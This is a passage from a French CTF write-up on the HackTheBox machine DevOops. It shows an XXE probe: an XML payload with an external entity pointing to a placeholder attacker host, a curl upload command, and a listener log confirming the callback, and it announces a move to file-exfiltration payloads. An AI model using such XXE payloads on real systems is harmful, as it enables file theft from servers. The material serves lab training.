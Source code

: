 Gobuster trouve quasi instantanément une page à */upload* qui nous invite visiblement à soumettre un fichier XML. Ça sent la faille XXE à plein nez.  

![DevOops HackTheBox CTF XXE vulnerable form](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/devoops_upload.png)

Ni une ni deux on met un port 80 en écoute et on envoie un fichier XML pour voir si le script va aller chercher la DTD (fichier servant à la validation de notre XML).  

Le XML est l'exemple type :  

```html
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://my_ip/test.txt">
]>
<r>&sp;</r>
```

L'envoi peut se faire via cURL :  

```plain
$ curl -D- -X POST http://10.10.10.91:5000/upload --form "file=@test.xml"
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Type: text/html
Content-Length: 141

<html>
  <head>
    <title>Internal Server Error</title>
  </head>
  <body>
    <h1><p>Internal Server Error</p></h1>

  </body>
</html>
```

Malgré l'erreur 500 ça toque bien à la porte :)   

```plain
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.91 - - [06/Sep/2018 14:23:09] code 404, message File not found
10.10.10.91 - - [06/Sep/2018 14:23:09] "GET /test.txt HTTP/1.0" 404 -
```

Lint or die trying
------------------

La suite logique est de passer à un [payload XXE](https://gist.github.com/staaldraad/01415b990939494879b4) permettant l'exfiltration des fichiers. Seulement, si à chaque fois notre DTD est chargée, ça ne va pas plus loin.  

Il va donc falloir faire en sorte que le XML que l'on envoie soit accepté par le serveur et pour cela il faut vraisemblablement placer les entités mentionnées (*Author*, *Subject* et *Content*).  
